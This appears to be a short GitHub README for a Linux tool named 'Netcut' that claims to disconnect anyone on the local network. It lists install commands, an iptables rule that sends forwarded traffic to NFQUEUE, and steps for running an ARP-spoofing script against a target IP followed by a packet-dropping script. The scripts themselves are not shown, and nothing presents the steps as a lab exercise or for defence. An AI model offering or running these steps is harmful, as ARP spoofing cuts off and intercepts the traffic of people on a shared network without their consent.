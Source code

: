 # Netcut
Disable the net of anyone present in your network

Directly download arp_spoofer.py and netcut.py

ONLY WORKS IN LINUX

Run the following commands in terminal:

1.) apt-get install build-essential python-dev libnetfilter-queue-dev

2.)pip install NetfilterQueue

3.)sudo apt install net-tools -y

4.)sudo pip3 install scapy

5.)iptables -I FORWARD  -j NFQUEUE --queue-num 0

6.)python arp_spoofer.py -t [target IP] -s [sppofing IP]

7.)open a new terminal or split the terminal

8.)python netcut.py


